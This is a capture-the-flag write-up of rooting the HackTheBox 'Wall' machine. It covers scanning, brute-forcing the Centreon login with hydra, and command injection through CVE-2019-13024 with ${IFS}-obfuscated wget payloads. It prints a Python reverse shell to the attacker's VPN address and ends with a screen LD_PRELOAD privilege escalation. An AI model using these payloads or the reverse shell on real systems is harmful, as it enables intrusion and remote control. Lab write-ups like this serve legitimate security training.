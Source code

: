 ################################# HackTheBox - Wall ############################
############################### A write-up by Chazapp ##########################

# Introduction
This write-up will explain how I managed to get root on HackTheBox's Wall.
The box IP is 10.10.10.157 and runs Ubuntu.
This box was written by @askar and retires in a few weeks. Please do not leak
this document. This was my first rooted box.

# Attack Surface

We start by adding the box to our /etc/hosts file and run nmap against it.

```
$ echo "10.10.10.157	wall.htb" >> /etc/hosts
$ nmap -sV -sT -sC -o nmap.txt wall.htb

Nmap 7.70 scan initiated Wed Sep 25 14:47:56 2019 as: nmap -sV -sT -sC -o nmap.txt wall.htb
Nmap scan report for 10.10.10.157
Host is up (0.087s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 25 14:48:07 2019 -- 1 IP address (1 host up) scanned in 10.76 seconds
```

We found an Apache web server running on port 80, serving the standard Default
page "It works". We will use gobuster and a common word list to enumerate the
available pages. Because we deal with Apache, we will add "-x .php" extensions. 

```
$ gobuster -w ../wordlists/common.txt -u http://wall.htb -t 100 -to 120s -x .php
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://wall.htb/
[+] Threads      : 100
[+] Wordlist     : ../wordlists/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php
[+] Timeout      : 2m0s
=====================================================
2019/10/04 15:11:49 Starting gobuster
=====================================================
/.hta (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/aa.php (Status: 200)
/index.html (Status: 200)
/monitoring (Status: 401)
/panel.php (Status: 200)
/server-status (Status: 403)
=====================================================
2019/10/04 15:12:11 Finished
=====================================================
```

"/aa.php" returns only a crytptic "1" symbol.
"/panel.php" returns "Just a test for php file !"
"/monitoring" returns Unauthorized, but changing the request from GET to POST
outputs this:

```
$ curl -X POST http://wall.htb/monitoring/
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

Going to "http://wall.htb/centreon" we find a login page to the monitoring
software Centreon, and displays the version v19.04. We found our foothold.

# Enumeration

Using `hydra` and the password list rockyou.txt, we will bruteforce access of the
Centreon dashboard.

```bash
$ $ hydra -l admin -P ../wordlists/rockyou.txt wall.htb http-post-form "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^&Login=Login:Bad credentials"

Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-10-04 16:02:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://wall.htb:80/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^&Login=Login:Bad credentials
[80][http-post-form] host: wall.htb   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-10-04 16:03:06

```

We found Login: admin, password: password1.
We may now access the Centreon Dashboard.

After a quick google search, we find that Centreon 19.04 is vulnerable to
CVE-2019-13024. In short, unproper sanitization of POST request parameter leads
to command injection in the context of the web-server user, www-data.

We even found a write-up and exploit script by the author of the box
https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/

By injecting commands in the "nagios_bin" POST parameter, we are able to run
commands on the box. But, some characters are forbidden by the box. We might not
use whitespaces or # character or the payload gets rejected and we are hit by a
403 Forbidden message.

Using ${IFS} Bash "Inter Field Separator", we are able to substitute whitespaces.
For our command injection to work, we would have needed a # character to comment
out the end of the command. Since this character is forbidden, we use `;echo` as
a command suffix in order for our commands to not crash, and keep context.

Our objective now is to upload a reverse shell python script to the server, then execute
it using the same command injection. Our reverse shell is a basic python script that
`dup2` stdin, stdout & stderr to a TCP socket pointing to our host:

```python
import socket,subprocess,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP-HTB-VPN>",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

At first, i tried uploading the reverse.py file
to https://transfer.sh, then download it from the injected command, such as:

```cve2019-13024.py
...
 "nagios_bin": "wget${IFS}https://transfer.sh/XXXXX/reverse.py${IFS}-o${IFS}/tmp/reverse.py;echo${IFS}$?;ls${IFS}/tmp/;echo",
...
  
```
`echo $?` returns the error code of the last command ran, in this case wget.
The error code was 4, which after research, meant "Networking Error". I realized
the box forbid downloads from Internet, but might accept from the HTB network.
I started my own instance of transfer.sh using Docker, uploaded my reverse.py then
downloaded it to the box:

```bash
$ docker run -p 8080:8080 dutchcoders/transfer.sh:latest --provider local --basedir /tmp/ -d
$ curl --upload-file reverse.py localhost:8080/reverse.py
localhost:8080/XXXXX/reverse.py
```

I then updated the command above to download from my host to the box:

```cve2019-13024.py
  "nagios_bin": "wget${IFS}http://<IP-HTB-VPN>:8080/XXXXX/reverse.py -o /tmp/reverse.py;ls${IFS}/tmp;echo"
```

`ls /tmp` shows that our reverse.py file has been written, we setup a netcat
listener on our side, then execute the payload.

```
$ nc -lvp 4444
Listening on [any] 4444 ...
```

```cve2019-13024.py
  "nagios_bin": "python3${IFS}/tmp/reverse.py;echo",
```

```bash
$ nc -lvp 4444
Listening on [any] 4444 ...
www-data@Wall:/usr/local/centreon/www$
```

We got a shell as www-data inside the box. We're in.
Moving on to privilege escalation.

# Privilege Escalation

Poking around, we find in /tmp/ an exploit name "screenroot.sh" left here by
an other player, but we could not run it ourselves. A quick Google search shows
that the software `screen` v4.5.0 is vulnerable to privilege escalation via library
hijacking (LD_PRELOAD exploit). This script runs the vulnerability automatically:
https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh

We just had to upload this file using the same method as our reverse.py then run it,
dropping us inside a `screen` instance as root.

```
www-data@Wall:/tmp/: chmod +x screenroot.sh
www-data@Wall:/tmp/: ./screenroot.sh
root@Wall:/tmp/
```
We then exfiltrated the Root and user Flag, and completed this Box.



Hope you enjoyed the ride,
Chazapp
